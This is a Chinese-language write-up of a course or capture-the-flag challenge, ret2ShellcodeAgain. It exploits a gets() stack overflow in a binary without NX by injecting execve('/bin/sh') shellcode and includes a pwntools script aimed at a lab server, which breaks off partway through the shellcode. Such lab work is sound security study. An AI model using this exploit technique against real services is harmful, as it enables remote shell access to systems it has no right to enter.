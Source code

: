 解雲暄	3190105871

### 01 ret2ShellcodeAgain
观察到源代码有 `gets()`，因此可以攻击！

通过 checksec 观察到程序没有开启 NX 保护：
![image.png](./assets/1649234604106-4a3cd8fc-39b8-44dc-a522-2a45f321bb89.png)
因此可以在栈上搞点东西来运行。

通过 gdb 研究栈结构：
![image.png](./assets/1649222382621-dbfae51a-b767-48ba-a273-df8662571282.png)
![image.png](./assets/1649223599955-6bf5e918-e8fc-4135-978b-307d1f9b0e53.png)
可以分析出栈结构大致如下：
![image.png](./assets/1649261695508-bad186b0-5dad-4c68-b25f-922f147a7aaa.png)
（`leave` 的作用是 `mov rsp, rbp    pop rbp`，即从栈上拿 `rbp`来将`rsp`调整到调用前的位置上。）

同时可以注意到，每次运行中栈的位置是不同的，因此 ret addr 的值不能简单地写成字面量。但是程序会给出 name 保存的地址信息，因此我们可以根据偏移量计算注入的地址：
![image.png](./assets/1649222422668-5e2d3e69-24bc-4eec-b3a0-e0eb5f41e87e.png)
即，`target = int(storeRecv[-13:], 16)`，其中 `storeRecv` 是接收到的这个输出。<br />`<br />下面构造 shellcode。我们在这里 [http://shell-storm.org/shellcode/files/shellcode-603.php](http://shell-storm.org/shellcode/files/shellcode-603.php) 找到了一个看起来能用的 shellcode：
```
xor     rdx, rdx
mov     qword rbx, '//bin/sh'
shr     rbx, 0x8
push    rbx
mov     rdi, rsp
push    rax
push    rdi
mov     rsi, rsp
mov     al, 0x3b
syscall
```

尝试编写代码并运行，发现一些问题；例如这样栈的增长会覆盖我们的 shellcode 本身。因此我们给 shellcode 增加 `sub	rsp, 48` 从而避开我们的 shellcode。
![image.png](./assets/1649231989628-a60ef3af-770a-4137-9e08-08295be012fe.png)

最终我们编写脚本得到 flag：
![image.png](./assets/1649234456203-1554066d-2a92-4c59-bf21-dff762e98de1.png)

这是我们最后使用的脚本：
```python
from pwn import *
context(arch = 'x86_64', os = 'linux')
context.log_level = 'DEBUG'
conn = remote("116.62.228.23", 10300)

conn.recvuntil("Please input your StudentID:\n")
conn.sendline("3190105871")
conn.recvuntil("name:\n")
conn.sendline("xyx")

shellcode = """
        sub	    rsp, 48
        xor     rdx, rdx
        mov     rbx, 0x68732f6e69622f2f
        shr     rbx, 0x8
        push    rbx
        mov     rdi, rsp
        push    rax
        push    rdi
        xor	    rsi, rsi
```